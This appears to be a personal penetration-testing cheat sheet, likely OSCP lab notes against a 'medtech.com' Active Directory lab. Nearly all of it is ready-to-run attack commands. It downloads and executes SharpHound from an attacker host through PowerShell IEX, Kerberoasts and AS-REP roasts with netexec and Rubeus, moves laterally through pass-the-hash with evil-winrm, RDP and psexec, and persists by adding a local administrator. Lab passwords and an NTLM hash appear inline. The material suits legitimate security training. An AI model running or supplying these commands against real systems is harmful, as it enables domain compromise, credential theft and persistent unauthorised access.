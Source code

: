 ## Enumeration 

Download and run Sharphound
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.49.124:8000/SharpHound.ps1'); Invoke-BloodHound -c All -s
```

Run rusthound from linux box
``` bash
proxychains ./rusthound -i 172.16.184.10 -u joe -p Flowers1  --domain medtech.com
```

## Kerberos

Kerberoasting
```
netexec ldap  10.10.207.140 -u celia.almeda -p "7k8XHk3dMtmpnC7" --kerberoasting KERBEROASTING
```

```
Rubeus.exe kerberoast /outfile:hashes.txt
```

ASREProasting
```
netexec ldap  10.10.207.140 -u celia.almeda -p "7k8XHk3dMtmpnC7"  --asreproast ASREPROAST
```

# Generic Windows

Connect to compromised host via winrm
```
 evil-winrm -i 192.168.224.121 -u administrator -H "b2c03054c306ac8fc5f9d188710b0168"
```


Connect to compromised host via rdp
```
xfreerdp /v:172.16.234.12:3389 /u:yoshi /p:"Mushroom\!" /cert-ignore /d:medtech.com /compression /drive:shared,/home/username/EDUCATION/OSCP/
```

Command execution via psexec
```
psexec.py medtech.com/leon:"rabbit:)"@172.16.234.10
```

# Post Exploitation 

## Windows Persistance

```
net user /add curiv P@ssw0rd
net localgroup administrators curiv /add
```

